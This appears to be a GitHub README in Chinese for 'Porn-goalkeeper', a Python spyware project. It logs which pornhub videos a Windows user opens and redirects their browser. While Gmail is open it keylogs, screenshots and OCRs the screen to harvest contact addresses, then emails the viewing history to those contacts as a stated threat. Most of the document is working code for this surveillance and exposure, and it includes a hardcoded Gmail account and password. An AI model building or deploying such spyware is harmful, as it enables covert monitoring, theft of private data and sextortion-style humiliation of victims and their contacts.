

# Porn-goalkeeper
全天下的人類都會有慾望，錢慾、性慾等等，其中性慾是每個人或多或少都需要的，此時，色情網站扮演著大多數人發洩的管道，就算是有性伴侶或沒性伴侶，都會有必須自己發洩的時候，此時的人類，為了達成眼前的目的，若是一兩部影片突然不能看，他們會不疑有他地繼續點其它部影片，無形之中造成觀看影片的資料外流，我們透過這種人類的心理作用，結合電子郵件的傳遞，給予人類警告與威脅。

我們利用受害者瀏覽色情網站的行為，去蒐集他所點擊的影片標題與網址，再透過他平常使用gmail寄信的行為，我們去蒐集他的寄信者作為威脅的籌碼，將他所觀看的影片資訊寄給他的gmail寄信的好友們，作為警告與威脅。
## 架構

## 程式碼解說
開發環境  : windows 10

程式語言  : Python 2.7.15

函式庫    : urllib2、pyHook、win32api、PIL、google-api-python-client、BeautifunSoup、threading、smtplib


設定用於存放寄信內容的list、存放影片資訊的string、存放寄信者的list、以及
選擇要偵測哪些網站的directory、IE的clsid。

```gherkin=
send_msg = []##mail的內容

video = "" ##A片的名稱與url

to_user = []##寄信者

target_sites  = {}##偵測網站字典

target_sites["www.pornhub.com"] = \
    {"logout_url"      : None,
     "logout_form"     : None,
     "login_form_index": 0,
     "owned"           : False}

target_sites["mail.google.com"] = \
    {"logout_url"      : None,
     "logout_form"     : "1ml",
     "login_form_index": 0,
     "owned"           : False}
clsid='{9BA05972-F6A8-11CF-A442-00A0C90A8F39}'##Internet Explorer的clsid

##讓wim32com可以去偵測IE瀏覽器，並用windows儲存IE瀏覽器正瀏覽的網頁
windows = win32com.client.Dispatch(clsid)
```

此為主程式，透過while True不斷偵測開啟的網站，若偵測到是pornhub網站，則偵測是否點擊影片，若有則對該影片連結利用爬蟲爬取影片的標題，將之存入send_msg，並將browser導回porn主頁面。

```gherkin
# 主執行緒繼續執行自己的工作
if __name__=='__main__':
    t = threading.Thread(target=Key)
    t.start()
    while True:
        
        for browser in windows:##掃描主機所正開啟的瀏覽器，可能有許多網頁
        
            url = urlparse.urlparse(browser.LocationUrl)##每個網頁都給他做urlparse分析
        
            if url.hostname in target_sites:##如果有網頁是我們定義的網頁(porn.com)
                try:                                                                                     
                    if "pornhub.com" in url.hostname:##表示進入porn主頁面
                    
                        if "viewkey" in url.query:##表示進入任一影片
                        
                            page = urllib2.urlopen(browser.LocationUrl)##連結url
                        
                            bs = BeautifulSoup(page,"html.parser")##對他進行爬蟲
                            

                            ##將爬到的影片標題與url用video儲存
                            video = "title = %s,url = %s" % (str(bs.title)[7:-22],browser.LocationUrl)
                            print video

                            send_msg.append(video)##將剛剛得到的video存給send_msg
                        
                            browser.Navigate(url.hostname)##將頁面導回porn主頁面，不給你看哈哈哈
                except:
                    pass

        if (keylogger.finished) == True:
            gmail = GetEmail("output.txt")
            for mail in gmail:
                to_user.append(mail)
                keylogger.finished = False;
                            
        time.sleep(5)##每偵測一次瀏覽器就休息個5秒吧，不用那麼辛苦
```

此為透過gmail寄信的function，首先要設定寄件者的帳號密碼，由於個資問題，所以將密碼覆蓋住，接著要將整封信件，包含寄件者、收件者、標題、內容放在一個string裡，透過smtp的函式將之寄出，其中需要注意的是，寄件者的帳號必須去google帳號頁面將低安全性應用程式存取權開啟，才得以讓python去發送寄信。

```gherkin
import smtplib

def send_gmail(gmail_name,send_msg):
    from_user = 'peter02589@gmail.com'
    from_password = 'peter110246'
    
    subject = 'Hello'
    
    tmp = ""
    for i in send_msg:
      tmp += i+"\n"
    
    email_text = """\  
    From: %s  
    To: %s  
    Subject: %s
    %s
    """ % (from_user, ", ".join(gmail_name), subject, tmp)

    try:
        smtp = smtplib.SMTP_SSL('smtp.gmail.com', 465)
        smtp.ehlo()
        smtp.login(from_user, from_password) ##進行登入
        smtp.sendmail(from_user , gmail_name , email_text) ##sendmail(寄信方,收件方,信件)
        smtp.close()
        print('Email sent!')
    except:
        print ('Email sent failed!!!')
```

此為鍵盤側錄之主要程式碼，判斷視窗名是否含有”gmail”字串來達到區隔其他網頁的效用，接著判斷是否有鍵盤輸入再來進行滑鼠事件偵測。

```gherkin
def KeyStroke(event):  

    global current_window,tmp,window_title
    #check to see if target changed windows
    if event.WindowName != current_window:
        current_window = event.WindowName        
        get_current_process()
    # if they pressed a standard key
    
    #print window_title.value
    #print chr(event.Ascii)
    if window_title != None:
        if "gmail" in window_title.value:    
            if event.Ascii > 32 and event.Ascii < 127:
                tmp = False
                print chr(event.Ascii)
                Mouse()
        #else:
            #pass
        
    return True
```

此為滑鼠事件偵測之主要程式碼，利用tmp布林變數判斷是否有先進行鍵盤輸入，再進行螢幕截圖的動作。

```gherkin=
def onMouseEvent(event):
    global tmp
    if tmp == False:        
        screenshot()
        tmp = True
        
    return True
    

def Mouse():
    
    global kl
    # 開始監聽
    kl.MouseLeftUp = onMouseEvent
    # 建立鉤子
    kl.HookMouse()
    return

```

此為螢幕截圖主要程式碼，利用pil函式庫進行區塊螢幕截圖，並給予緩衝時間0.5秒來儲存圖片，儲存為圖片後交給googleOCR進行影像辨識。

```gherkin
def screenshot():
    global num,finished
    pic = ImageGrab.grab(bbox=(1118,400,1825,1070))
    pic.save('screenshop.jpg')
    print "[Image Saved]"
    time.sleep(0.5)
    googleOCR.main('screenshop.jpg','output.txt')
    finished = True
    print" 分析完成"
```

此為GoogleOCR辨識主要程式碼，將截好的圖片進行上傳，分析完後存成文字檔。

```gherkin=
def main(image,filename):

  # 取得憑證、認證、建立 Google 雲端硬碟 API 服務物件
  credentials = get_credentials()
  http = credentials.authorize(httplib2.Http())
  service = discovery.build('drive', 'v3', http=http)

  # 包含文字內容的圖片檔案（png、jpg、bmp、gif、pdf）
  imgfile = image

  # 輸出辨識結果的文字檔案
  txtfile = filename

  # 上傳成 Google 文件檔，讓 Google 雲端硬碟自動辨識文字
  mime = 'application/vnd.google-apps.document'
  res = service.files().create(
    body={
      'name': imgfile,
      'mimeType': mime
    },
    media_body=MediaFileUpload(imgfile, mimetype=mime, resumable=True)
  ).execute()

  # 下載辨識結果，儲存為文字檔案
  downloader = MediaIoBaseDownload(
    io.FileIO(txtfile, 'wb'),
    service.files().export_media(fileId=res['id'], mimeType="text/plain")
  )
  done = False
  while done is False:
    status, done = downloader.next_chunk()

  # 刪除剛剛上傳的 Google 文件檔案
  service.files().delete(fileId=res['id']).execute()


```

此為正規表示法之程式碼，用上述取得之文字檔來分析EMAIL字串。

```gherkin=
# 正規表示法
def GetEmail(filename):

    f = open(filename,'r')
    output = f.read();
    reg = re.findall(r'\b[a-zA-Z0-9_.-]+@[a-zA-Z0-9]+[\.\w-]{2,}\b',output)
    f.close()
    return reg
```

## 執行成果
1. 取得Email

    當使用者進入網址列有”gmail”的網站，即開始偵測是否有鍵盤輸入，偵測
    輸入成功後接著開始進行滑鼠事件偵測，一偵測到滑鼠左鍵點擊事件便馬
    上進行截圖，顯示”[Image Saved]”表示成功，然後上傳Google雲端進行
    OCR圖像辨識，分析是否有Email字串，最後把字串加入到List。
    
    
    
3. 蒐集色情影片資訊

    當使用者進入pornhub網站，即開始蒐集，達到三筆資料便會顯示出來。
    
    

5. 兩種資訊均取得後即發送email
    


